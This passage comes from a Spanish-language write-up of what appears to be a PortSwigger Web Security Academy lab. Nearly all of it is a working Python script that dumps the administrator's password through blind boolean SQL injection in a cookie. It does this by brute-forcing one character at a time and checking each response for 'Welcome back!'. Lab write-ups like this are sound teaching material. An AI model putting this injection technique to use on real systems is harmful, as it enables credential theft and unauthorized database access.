 Para dumpear la contraseña del `administrador`, es posible usar el intruder de Burp Suite como hice anteriormente o el siguiente script en python.

```python
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig, frame):
	print("\n\n[!] Saliendo ...\n")
	sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# URL
main_url = "https://0a73006a048d41e7806c1c8d00940094.web-security-academy.net" 
characters = string.ascii_lowercase + string.digits


def maKeRequest():
	
	password = ""
	
	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")
	
	time.sleep(2)
	
	p2 = log.progress("Password")
	
	for position in range(1,21):
		for character in characters:
		
			# Cookie
			cookies = {
				'TrackingId': "XPkeJc0lmDX0BXUO' and (select substring(password,%d,1) from users where username='administrator')='%s" % (position, character),
				'session': 'desw7N0FxdExwTyc0JkDfTeZwWld5QPf'
			}
			
			p1.status(cookies['TrackingId'])
			
			r = requests.get(main_url, cookies=cookies)
			
			if "Welcome back!" in r.text:
				password += character
				p2.status(password)
				break

if __name__ == '__main__':

	maKeRequest()

```
